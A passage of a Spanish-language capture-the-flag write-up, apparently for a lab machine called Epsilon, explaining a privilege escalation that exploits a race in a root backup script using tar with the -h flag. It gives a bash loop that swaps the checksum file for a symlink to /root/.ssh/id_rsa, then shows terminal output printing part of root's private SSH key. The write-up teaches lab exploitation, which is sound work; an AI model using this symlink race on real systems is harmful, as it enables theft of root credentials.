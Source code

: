 Vemos que en primer lugar borra todo lo existente en **/opt/backups**, luego de esto crea un archivo .tar que tendrá dentro todo lo que está en **/var/www/app**, luego envía el hash de este archivo tar a la ruta **/opt/backups/checksum**. Podemos ver que finalmente utiliza tar para comprimir el archivo con el **checksum** creado junto con el mismo archivo tar inicial, lo importante aquí es una flag que está utilizando la cual es -h, esta permite hacer un seguimiento del los enlaces simbólicos, lo que nos va a permitir hacer lo siguiente.

Como podemos eliminar y crear el archivo **checksum**, lo que haremos será que mientras que el código esté en el sleep 5, borraremos el archivo **checksum** y lo reemplazaremos por otro, el cual tendrá un symlink hacia la **id_rsa** de root, dentro del directorio **/root/.ssh**, de esta forma vamos a tener un nuevo archivo tar final modificado, el cual al descomprimirlo, entregará los datos comprimidos de **/var/www/app/** y el **checksum**, sin embargo, el checksum ya no será el sha1 del código original, sino que será la **id_rsa** de root pues la flag -h realiza el seguimiento al symlink.

```bash
#!/bin/bash

while true; do
        if [ -e /opt/backups/checksum ]; then
                rm /opt/backups/checksum
                ln -s -f /root/.ssh/id_rsa /opt/backups/checksum
                echo "finalizado"
                break 
        fi
done
```

Para ello este script en bash borrará cualquier checksum que llegue y lo reemplazará por otro archivo llamado checksum que tendrá un symlink hacia la **id_rsa** de root. Vamos a ejecutarlo:

```
tom@epsilon:/tmp$ ./test.sh
rm: remove write-protected regular file '/opt/backups/checksum'? y
finalizado
tom@epsilon:/tmp$ cd /var/backups/web_backups
tom@epsilon:/var/backups/web_backups$ ls
224789875.tar  259999126.tar
tom@epsilon:/var/backups/web_backups$ cp 259999126.tar /tmp
tom@epsilon:/var/backups/web_backups$ cd /tmp
```

Copiamos el último tar creado y lo llevamos a tmp para descomprimirlo:

```
tom@epsilon:/tmp$ tar -xf 259999126.tar
```

Si vemos el archivo:
```
tom@epsilon:/tmp$ cd opt
tom@epsilon:/tmp/opt$ ls
backups
tom@epsilon:/tmp/opt$ cd backups/
tom@epsilon:/tmp/opt/backups$ ls
245036605.tar  checksum
tom@epsilon:/tmp/opt/backups$ cat checksum 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1w26V2ovmMpeSCDauNqlsPHLtTP8dI8HuQ4yGY3joZ9zT1NoeIdF
16L/79L3nSFwAXdmUtrCIZuBNjXmRBMzp6euQjUPB/65yK9w8pieXewbWZ6lX1l6wHNygr
QFacJOu4ju+vXI/BVB43mvqXXfgUQqmkY62gmImf4xhP4RWwHCOSU8nDJv2s2+isMeYIXE
SB8l1wWP9EiPo0NWlJ8WPe2nziSB68vZjQS5yxLRtQvkSvpHBqW90frHWlpG1eXVK8S9B0
1PuEoxQjS0fNASZ2zhG8TJ1XAamxT3YuOhX2K6ssH36WVYSLOF/2KDlZsbJyxwG0V8QkgF
u0DPZ0V8ckuh0o+Lm64PFXlSyOFcb/1SU/wwid4i9aYzhNOQOxDSPh2vmXxPDkB0/dLAO6
wBlOakYszruVLMkngP89QOKLIGasmzIU816KKufUdLSFczig96aVRxeFcVAHgi1ry1O7Tr
oCIJewhvsh8I/kemAhNHjwt3imGulUmlIw/s1cpdAAAFiAR4Z9EEeGfRAAAAB3NzaC1yc2
EAAAGBANcNuldqL5jKXkgg2rjapbDxy7Uz/HSPB7kOMhmN46Gfc09TaHiHRdei/+/S950h
cAF3ZlLawiGbgTY15kQTM6enrkI1Dwf+ucivcPKYnl3sG1mepV9ZesBzcoK0BWnCTruI7v
```